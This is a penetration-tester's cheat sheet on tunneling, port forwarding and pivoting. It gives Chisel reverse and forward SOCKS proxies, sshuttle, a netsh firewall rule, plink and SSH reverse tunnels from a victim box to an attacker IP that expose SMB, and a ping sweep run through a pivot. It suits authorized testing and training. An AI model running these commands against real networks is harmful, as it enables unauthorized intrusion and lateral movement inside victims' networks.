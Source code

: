 # Tunneling / Port Forwarding / Pivoting  
 Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf) 
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)  
 
 - [Tunneling / Port Forwarding / Pivoting](#tunneling---port-forwarding---pivoting)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
- [Linux Port Forwarding](#linux-port-forwarding)
  * [SShuttle](#sshuttle)
- [Windows Port Forwarding](#windows-port-forwarding)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)


 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    ./chisel server -p LISTEN_PORT --socks5  
    attack    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    ./chisel server -p LISTEN_PORT 
    attack    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
 # Linux Port Forwarding 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 
 
 # Windows Port Forwarding 
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT      
## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
     [upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
# Scanning though a pivot 
uploading static binaries from [here](https://github.com/andrew-d/static-binaries)  

## Commands 

### Linux 

   arp -a
   cat /etc/hosts
   /etc/resolv.conf  
   
   for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " " 

